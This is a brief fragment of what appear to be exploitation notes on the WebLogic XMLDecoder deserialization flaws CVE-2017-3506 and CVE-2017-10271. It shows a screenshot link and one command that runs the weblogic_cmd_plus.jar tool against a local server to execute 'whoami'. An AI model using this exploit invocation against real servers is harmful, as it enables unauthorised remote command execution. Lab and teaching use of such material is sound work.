 ![image-20210407194052090](./img/6.png)

### XMLDecoder Deserialization：CVE-2017-3506、CVE-2017-10271

There is a return command to execute.

```
java -jar weblogic_cmd_plus.jar  -H 127.0.0.1 -P 7001 -T CVE-2017-3506 -C "whoami"
```

